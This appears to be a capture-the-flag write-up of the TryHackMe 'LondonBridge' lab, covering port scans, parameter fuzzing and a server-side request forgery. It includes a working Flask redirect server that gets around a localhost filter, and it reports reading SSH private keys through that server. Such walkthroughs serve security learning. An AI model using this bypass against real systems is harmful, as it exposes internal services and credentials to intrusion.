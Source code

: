----------------

### CTF: THM
### Lab: LondonBridge

---------------

![image](https://github.com/user-attachments/assets/9fc3a6b2-580f-4581-a574-c403b9d47b7c)

---------------

- Rustscan's output
      
      ❯ rustscan -a 10.10.227.38 -- -Pn -sC -sV
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      🌍HACK THE PLANET🌍
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 10.10.227.38:22
      Open 10.10.227.38:8080
      [~] Starting Script(s)
      [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
      
      Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
      [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-05 06:23 WAT
      NSE: Loaded 156 scripts for scanning.
      NSE: Script Pre-scanning.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 06:23
      Completed NSE at 06:23, 0.00s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 06:23
      Completed NSE at 06:23, 0.00s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 06:23
      Completed NSE at 06:23, 0.00s elapsed
      Initiating Parallel DNS resolution of 1 host. at 06:23
      Completed Parallel DNS resolution of 1 host. at 06:23, 0.05s elapsed
      DNS resolution of 1 IPs took 0.05s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
      Initiating Connect Scan at 06:23
      Scanning 10.10.227.38 [2 ports]
      Discovered open port 8080/tcp on 10.10.227.38
      Discovered open port 22/tcp on 10.10.227.38
      Completed Connect Scan at 06:23, 0.19s elapsed (2 total ports)
      Initiating Service scan at 06:23
      Scanning 2 services on 10.10.227.38
      Completed Service scan at 06:25, 124.91s elapsed (2 services on 1 host)
      NSE: Script scanning 10.10.227.38.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 06:25
      Completed NSE at 06:25, 15.69s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 06:25
      Completed NSE at 06:26, 2.05s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 06:26
      Completed NSE at 06:26, 0.00s elapsed
      Nmap scan report for 10.10.227.38
      Host is up, received user-set (0.19s latency).
      Scanned at 2024-11-05 06:23:38 WAT for 143s
      
      PORT     STATE SERVICE    REASON  VERSION
      22/tcp   open  ssh        syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   2048 58:c1:e4:79:ca:70:bc:3b:8d:b8:22:17:2f:62:1a:34 (RSA)
      | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDziNs6aSHIQOJFilv8PhCPd676iD1TrhMYe4p4Mj2E3yaAl4xb8DNT2dhpcv6H8EvtCJnAbXmnFTTOZy14fd7FKc2/Mr4MNLsINFpMU8hc85g6S9ZEnWKlU8dw5jUUeZnAbHSTnq6ARvEbT/Y5seiWEJ7IBiUqptlUA2eiOU7g0DFwrYH7n40aDe0m6PKPIfI9G0XO0cJHISeJ0bsSES1uun2WHLM0sRx+17hrBgM2YfD9OevcltVMlQqWasP9lqf2ooOdBvQTq4eH5UyyuEzaRtQwBYP/wWQEVFacejJE1iT2VD6ZAilhlzo9mww9vqTEwGTvatH65wiyCZHMvrSb
      |   256 2a:b4:1f:2c:72:35:7a:c3:7a:5c:7d:47:d6:d0:73:c8 (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJuZrGZxDIlI4pU1KNZ8A87cWFcgHxRSt7yFgBtJoUQMhNmcw8FSVC54b7sBYXCgBsgISZfWYPjBM9kikh8Jnkw=
      |   256 1c:7e:d2:c9:dd:c2:e4:ac:11:7e:45:6a:2f:44:af:0f (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICkCeqFADY/YvhJyJabcs5DVTYbl/DEKEpBoluTuDdB1
      8080/tcp open  http-proxy syn-ack gunicorn
      | http-methods: 
      |_  Supported Methods: OPTIONS GET HEAD
      |_http-title: Explore London
      |_http-server-header: gunicorn
      | fingerprint-strings: 
      |   GetRequest: 
      |     HTTP/1.0 200 OK
      |     Server: gunicorn
      |     Date: Tue, 05 Nov 2024 10:16:11 GMT
      |     Connection: close
      |     Content-Type: text/html; charset=utf-8
      |     Content-Length: 2682
      |     <!DOCTYPE html>
      |     <html lang="en">
      |     <head>
      |     <meta charset="UTF-8">
      |     <meta name="viewport" content="width=device-width, initial-scale=1.0">
      |     <title>Explore London</title>
      |     <style>
      |     body {
      |     font-family: Arial, sans-serif;
      |     margin: 0;
      |     padding: 0;
      |     background-color: #f2f2f2;
      |     header {
      |     background-color: #333;
      |     color: #fff;
      |     padding: 10px 20px;
      |     text-align: center;
      |     background-color: #444;
      |     color: #fff;
      |     padding: 10px 20px;
      |     text-align: center;
      |     color: #fff;
      |     text-decoration: none;
      |     margin: 0 10p
      |   HTTPOptions: 
      |     HTTP/1.0 200 OK
      |     Server: gunicorn
      |     Date: Tue, 05 Nov 2024 10:16:11 GMT
      |     Connection: close
      |     Content-Type: text/html; charset=utf-8
      |     Allow: OPTIONS, GET, HEAD
      |_    Content-Length: 0
      1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
      SF-Port8080-TCP:V=7.94SVN%I=7%D=11/5%Time=6729ABE1%P=x86_64-pc-linux-gnu%r
      SF:(GetRequest,B15,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:
      SF:\x20Tue,\x2005\x20Nov\x202024\x2010:16:11\x20GMT\r\nConnection:\x20clos
      SF:e\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x2
      SF:02682\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n\x20\x2
      SF:0\x20\x20<meta\x20charset=\"UTF-8\">\n\x20\x20\x20\x20<meta\x20name=\"v
      SF:iewport\"\x20content=\"width=device-width,\x20initial-scale=1\.0\">\n\x
      SF:20\x20\x20\x20<title>Explore\x20London</title>\n\x20\x20\x20\x20<style>
      SF:\n\x20\x20\x20\x20\x20\x20\x20\x20body\x20{\n\x20\x20\x20\x20\x20\x20\x
      SF:20\x20\x20\x20\x20\x20font-family:\x20Arial,\x20sans-serif;\n\x20\x20\x
      SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20margin:\x200;\n\x20\x20\x20\x20\x
      SF:20\x20\x20\x20\x20\x20\x20\x20padding:\x200;\n\x20\x20\x20\x20\x20\x20\
      SF:x20\x20\x20\x20\x20\x20background-color:\x20#f2f2f2;\n\x20\x20\x20\x20\
      SF:x20\x20\x20\x20}\n\x20\x20\x20\x20\x20\x20\x20\x20header\x20{\n\x20\x20
      SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20background-color:\x20#333;\n\x2
      SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20color:\x20#fff;\n\x20\x20\
      SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20padding:\x2010px\x2020px;\n\x20\
      SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20text-align:\x20center;\n\x20
      SF:\x20\x20\x20\x20\x20\x20\x20}\n\x20\x20\x20\x20\x20\x20\x20\x20nav\x20{
      SF:\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20background-color:\x20
      SF:#444;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20color:\x20#fff;\
      SF:n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20padding:\x2010px\x2020
      SF:px;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20text-align:\x20cen
      SF:ter;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\x20\x20\x20\x20\x20\x20\x20\x
      SF:20nav\x20a\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20color:
      SF:\x20#fff;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20text-decorat
      SF:ion:\x20none;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20margin:\
      SF:x200\x2010p")%r(HTTPOptions,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gu
      SF:nicorn\r\nDate:\x20Tue,\x2005\x20Nov\x202024\x2010:16:11\x20GMT\r\nConn
      SF:ection:\x20close\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nAll
      SF:ow:\x20OPTIONS,\x20GET,\x20HEAD\r\nContent-Length:\x200\r\n\r\n");
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

- FFUF's directory scan

![image](https://github.com/user-attachments/assets/0c475fb2-a5af-4129-a7c0-2453d2740f36)


- I tried the `view_image` route and got a 500 error when I tried the `GET` method.I tried the `POST` method and discovered it required the `image_url` parameter.Then,I tried to load a url to see the output but it just reflects it back.

![image](https://github.com/user-attachments/assets/22d97295-dc4e-4ffe-80ab-c1711b24da43)

- I fuzzed for more parameter with burp suite.I intercepted the curl request with burpsuite.

![image](https://github.com/user-attachments/assets/5742d7bf-fa9f-41f8-bcab-52313e411f68)

- Then,I fuzzed for params with `Burp Intruder`.I used the wordlist `common.txt` to fuzz.I got the param `www` which successfully loaded the url of the target.The endpoint is vulnerable to server side request forgery.

![image](https://github.com/user-attachments/assets/ff84ede2-75e2-4af1-b4a7-50307d8d9c03)

- I tried to load localhost and see if I can fuzz for internal ports but I got the `403` error.

![image](https://github.com/user-attachments/assets/a731fa11-a793-4eb9-8f0a-9cb9159ea031)

- I bypassed the 403 error by setting up a site which redirects to the localhost url.I exploited this by setting up a Flask server with the code below.The index page takes in 2 params which is the `port` and `file`.The port serves as the internal port we want to load,while the `file` param signifies the file that we want to read.

```python3
#! /usr/bin/env python3
from flask import Flask, redirect,request
from urllib.parse import quote
app = Flask(__name__)    

@app.route('/',methods=['GET'])    
def root():
    port = request.args.get("port")
    file = request.args.get("file")
    if file != None:
        url =  f"http://127.0.0.1:{port}/{file}"
    else:
        url = f"http://127.0.0.1:{port}/"
    return redirect(url, code=301)
    
if __name__ == "__main__":
    app.run(host="<ip>", port=8080)
```

![image](https://github.com/user-attachments/assets/957e3bf8-62bb-45be-a479-0b00a57fedaa)

- Filter bypassed

![image](https://github.com/user-attachments/assets/cd6ba7d8-392c-417d-b590-2238f648695e)

- I was able to read the ssh's id_rsa and authorized_keys files.It should be noted that `&` should be passed url encoded as seen below.The `authorized_keys` file helped me identify the user.
















